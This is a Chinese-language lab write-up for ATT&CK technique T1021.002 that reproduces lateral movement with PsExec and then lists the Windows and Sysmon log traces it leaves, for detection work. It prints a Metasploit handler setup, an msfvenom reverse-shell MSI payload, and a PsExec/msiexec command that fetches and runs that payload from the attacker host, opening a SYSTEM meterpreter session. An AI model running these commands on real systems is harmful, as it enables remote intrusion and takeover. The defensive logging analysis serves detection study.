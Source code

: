 # T1021-002-win-基于白名单PsExec执行payload

## 来自ATT&CK的描述

攻击者可以使用服务器帐户阻止（SMB）使用有效帐户与远程网络共享进行交互。然后，对手可以以登录用户的身份执行操作。

SMB是同一网络或域上Windows计算机的文件，打印机和串行端口共享协议。攻击者可以使用SMB与文件共享进行交互，从而允许他们在整个网络中横向移动。SMB的Linux和macOS实现通常使用Samba。

Windows系统具有隐藏的网络共享，只有管理员才能访问它们，并提供了远程文件复制和其他管理功能。例如网络共享包括C$，ADMIN$，和IPC$。攻击者可以将此技术与管理员级别的有效帐户结合使用，以通过SMB远程访问网络系统；使用远程过程调用（RPC）与系统进行交互；传输文件；以及通过远程执行来运行传输的二进制文件。依赖于SMB/RPC上经过身份验证的会话的示例执行技术为计划任务/作业，服务执行和Windows管理规范。攻击者还可以使用NTLM哈希访问具有散列，特定配置和补丁程序级别的系统上的管理员共享。

## 测试案例

微软于2006年7月收购sysinternals公司，PsExec是SysinternalsSuite的小工具之一，是一种轻量级的telnet替代品，允许在其他系统上执行进程，完成控制台应用程序的完全交互，而无需手动安装客户端软件，并且可以获得与控制台应用程序相当的完全交互性。

微软官方文档：

<https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec>

说明：PsExec.exe没有默认安装在windows系统。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit
```

#### 生成payload

```bash
msfvenom -a  x86 --platform windows -p  windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=4444 -f msi > shellcode.msi
```

#### 靶机执行

注意：需要管理员权限

```dos
PsExec.exe -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49371) at 2020-04-18 23:09:44 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getpid
Current pid: 2352
```

## 测试留痕

```log
windows 安全日志
EventID： 4688
进程信息:
新进程 ID: 0xe84
新进程名: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe

EventID： 4688
进程信息:
新进程 ID: 0xfcc
新进程名: C:\Windows\PSEXESVC.exe

EVentID：5140
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369
共享信息:
共享名: \\*\IPC$

EventID：5145
网络信息:
对象类型: File
源地址: fe80::719e:d312:648f:4884
源端口: 49369

共享信息:
共享名称: \\*\IPC$
共享路径:
相对目标名称: PSEXESVC

SYSMON日志
EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.237
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00107a844001}
ProcessId: 3716
Image: C:\Users\12306Br0\Desktop\PSTools\PsExec.exe
FileVersion: 2.2
Description: Execute processes remotely
Product: Sysinternals PsExec
Company: Sysinternals - www.sysinternals.com
OriginalFileName: psexec.c
CommandLine: PsExec.exe  -d -s msiexec.exe /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Users\12306Br0\Desktop\PSTools\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-0020eae10600}
LogonId: 0x6e1ea
TerminalSessionId: 1
IntegrityLevel: High
Hashes: SHA1=E50D9E3BD91908E13A26B3E23EDEAF577FB3A095
ParentProcessGuid: {bb1f7c32-1806-5e9b-0000-001070474001}
ParentProcessId: 3492
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.284
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ProcessId: 4044
Image: C:\Windows\PSEXESVC.exe
FileVersion: 2.2
Description: PsExec Service
Product: Sysinternals PsExec
Company: Sysinternals
OriginalFileName: psexesvc.exe
CommandLine: C:\Windows\PSEXESVC.exe
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=A17C21B909C56D93D978014E63FB06926EAEA8E7
ParentProcessGuid: {bb1f7c32-a6a0-5e60-0000-001025ae0000}
ParentProcessId: 496
ParentImage: C:\Windows\System32\services.exe
ParentCommandLine: C:\Windows\system32\services.exe

EventID：1
Process Create:
RuleName:
UtcTime: 2020-04-18 15:09:29.440
ProcessGuid: {bb1f7c32-1829-5e9b-0000-00103c894001}
ProcessId: 1916
Image: C:\Windows\System32\msiexec.exe
FileVersion: 5.0.7601.17514 (win7sp1_rtm.101119-1850)
Description: Windows® installer
Product: Windows Installer - Unicode
Company: Microsoft Corporation
OriginalFileName: msiexec.exe
CommandLine: "msiexec.exe" /q /i http://192.168.126.146/shellcode.msi
CurrentDirectory: C:\Windows\system32\
User: NT AUTHORITY\SYSTEM
LogonGuid: {bb1f7c32-a6a0-5e60-0000-0020e7030000}
LogonId: 0x3e7
TerminalSessionId: 0
IntegrityLevel: System
Hashes: SHA1=443AAC22D57EDD4EF893E2A245B356CBA5B2C2DD
ParentProcessGuid: {bb1f7c32-1829-5e9b-0000-00108c864001}
ParentProcessId: 4044
ParentImage: C:\Windows\PSEXESVC.exe
ParentCommandLine: C:\Windows\PSEXESVC.exe
```

由于sysmon配置问题，只对进程创建行为进行监控

## 检测规则/思路

无具体检测规则，可根据PsExec特征进行检测。

## 参考推荐

MITRE-ATT&CK-T1021-002

<https://attack.mitre.org/techniques/T1021/002/>

基于白名单PsExec执行payload

<https://blog.csdn.net/ws13129/article/details/89879771>
